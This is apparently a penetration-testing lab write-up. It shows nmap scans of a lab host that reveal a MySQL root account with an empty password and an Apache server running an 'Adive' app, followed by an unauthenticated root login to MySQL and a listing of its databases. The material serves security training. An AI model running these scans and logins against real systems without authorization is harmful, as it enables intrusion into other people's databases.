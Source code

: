 `sudo nmap -Pn -sSV --script=mysql-empty-password -p 3306 192.249.241.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-11-27 21:47 IST
Nmap scan report for target-1 (192.249.241.3)
Host is up (0.000046s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.56-log
| mysql-empty-password: 
|_  root account has empty password 📌
MAC Address: 02:42:C0:F9:F1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

`sudo nmap -Pn -sSV -p 80 192.249.241.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-11-27 21:49 IST
Nmap scan report for target-1 (192.249.241.3)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 📌
MAC Address: 02:42:C0:F9:F1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds
```

`whatweb http://192.249.241.3`:
```
http://192.249.241.3 [200 OK] Apache[2.4.18], Cookies[PHPSESSID], 📌 Country[CANADA][CA], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.249.241.3], JQuery, Script, Title[Welcome to Adive!]
```

`mysql -u root -h 192.249.241.3`:
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 5.5.56-log MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| adive              |
| mysql              | 📌
| performance_schema |
| test               |
+--------------------+
5 rows in set (0.002 sec)
```
```
MySQL [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```